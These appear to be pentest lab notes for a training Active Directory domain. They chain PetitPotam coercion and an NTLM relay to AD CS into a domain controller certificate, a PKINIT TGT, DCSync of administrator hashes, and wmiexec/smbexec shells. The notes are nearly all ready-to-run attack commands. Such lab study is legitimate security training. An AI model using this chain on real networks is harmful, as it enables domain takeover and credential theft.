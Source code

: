 TGT request tool
https://github.com/dirkjanm/PKINITtools

Locate Certificate Authority Tool
https://github.com/zer1t0/certi

Linux petite potam
https://github.com/topotam/PetitPotam

Windows petite potam
https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1

Start ntlmrelay
```shell-session
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

Run petitepotam linux (attack to get certificate)
```shell-session
python3 PetitPotam.py 172.16.5.225 172.16.5.5 
```

Request tgt with pkinit (using certificate) saved into dc01.ccache
```shell-session
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

Setting krb5ccname so attack host uses specified file for tgt
```shell-session
 export KRB5CCNAME=dc01.ccache
```

Use DC tgt acquired to dcsync
```shell-session
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

List credential cache on attack host
```
klist
```

Confirm admin access to DC with crackmapexec
```shell-session
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

Submit TGS request pkinittools suite (using key from pikinit above)
```shell-session
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

Using NTLM Hash to DCSync (using hash from secretsdump first then hash from getnthash hash above)
```shell-session
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```


Gain shell with result from secretsdump.py
```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf INLANEFREIGHT.LOCAL/administrator@172.16.5.5
```
or 
```
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf INLANEFREIGHT.LOCAL/administrator@172.16.5.5
```
Request tgs and run petite potam via rubeus windows
[[Rubeus commands]]

DCSync with mimikatz
[[Mimikatz Command]]



